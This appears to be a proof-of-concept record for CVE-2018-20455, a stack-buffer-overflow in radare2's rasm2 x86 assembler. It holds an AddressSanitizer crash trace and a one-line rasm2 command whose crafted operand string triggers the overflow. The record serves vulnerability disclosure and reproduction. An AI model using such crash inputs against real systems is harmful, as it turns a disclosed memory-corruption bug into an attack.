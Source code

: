 # CVE-2018-20455

## POC URL
- https://github.com/radare/radare2/issues/12373

## Reproduction Steps
Work environment
Questions	Answers
OS/arch/bits (mandatory)	Ubuntu x86 64
File format of the file you reverse (mandatory)	-
Architecture/bits of the file (mandatory)	-
r2 -v full output, not truncated (mandatory)	rasm2 3.1.0 20265 @ linux-x86-64 git.3.1.0-46-g23a0cfcdd commit: 23a0cfc build: 2018-12-02__22:59:40
Expected behavior
rasm2 exits with error message.

Actual behavior
rasm2 crashes.

=================================================================
==14271==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffee2380bd0 at pc 0x7f83dd540694 bp 0x7ffee23800d0 sp 0x7ffee23800c8
WRITE of size 4 at 0x7ffee2380bd0 thread T0
    #0 0x7f83dd540693 in parseOperand /home/exp/FOT/radare2/libr/asm/p/asm_x86_nz.c:4579:28
    #1 0x7f83dd53f38b in parseOpcode /home/exp/FOT/radare2/libr/asm/p/asm_x86_nz.c:4760:3
    #2 0x7f83dd539a43 in assemble /home/exp/FOT/radare2/libr/asm/p/asm_x86_nz.c:4838:2
    #3 0x7f83dd5a77a3 in r_asm_assemble /home/exp/FOT/radare2/libr/asm/asm.c:594:10
    #4 0x7f83dd5ac085 in r_asm_massemble /home/exp/FOT/radare2/libr/asm/asm.c:980:12
    #5 0x7f83dd5ae730 in r_asm_rasm_assemble /home/exp/FOT/radare2/libr/asm/asm.c:1137:10
    #6 0x5590ecd9e65b in rasm_asm /home/exp/FOT/radare2/binr/rasm2/rasm2.c:370:16
    #7 0x5590ecd9e573 in print_assembly_output /home/exp/FOT/radare2/binr/rasm2/rasm2.c:429:8
    #8 0x5590ecd9b3e6 in main /home/exp/FOT/radare2/binr/rasm2/rasm2.c:727:12
    #9 0x7f83da472b96 in __libc_start_main /build/glibc-OTsEL5/glibc-2.27/csu/../csu/libc-start.c:310
    #10 0x5590ecca10f9 in _start (/home/exp/FOT/radare2/binr/rasm2/rasm2+0x1f0f9)

Address 0x7ffee2380bd0 is located in stack of thread T0 at offset 496 in frame
    #0 0x7f83dd53974f in assemble /home/exp/FOT/radare2/libr/asm/p/asm_x86_nz.c:4828

  This frame has 3 object(s):
    [32, 64) '__data' (line 4829)
    [96, 224) 'op' (line 4831)
    [256, 496) 'instr' (line 4834) <== Memory access at offset 496 overflows this variable
HINT: this may be a false positive if your program uses some custom stack unwind mechanism or swapcontext
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow /home/exp/FOT/radare2/libr/asm/p/asm_x86_nz.c:4579:28 in parseOperand
Shadow bytes around the buggy address:
  0x10005c468120: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x10005c468130: 00 00 00 00 00 00 00 00 00 00 00 00 f1 f1 f1 f1
  0x10005c468140: 00 00 00 00 f2 f2 f2 f2 00 00 00 00 00 00 00 00
  0x10005c468150: 00 00 00 00 00 00 00 00 f2 f2 f2 f2 00 00 00 00
  0x10005c468160: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x10005c468170: 00 00 00 00 00 00 00 00 00 00[f3]f3 f3 f3 f3 f3
  0x10005c468180: f3 f3 f3 f3 00 00 00 00 00 00 00 00 00 00 00 00
  0x10005c468190: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x10005c4681a0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x10005c4681b0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x10005c4681c0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==14271==ABORTING
Aborted
Steps to reproduce the behavior

## run rasm2 -a x86 -b 32  '0 ,0,[bP-bL-bP-bL-bL-r-bL-bP-bL-bL-'
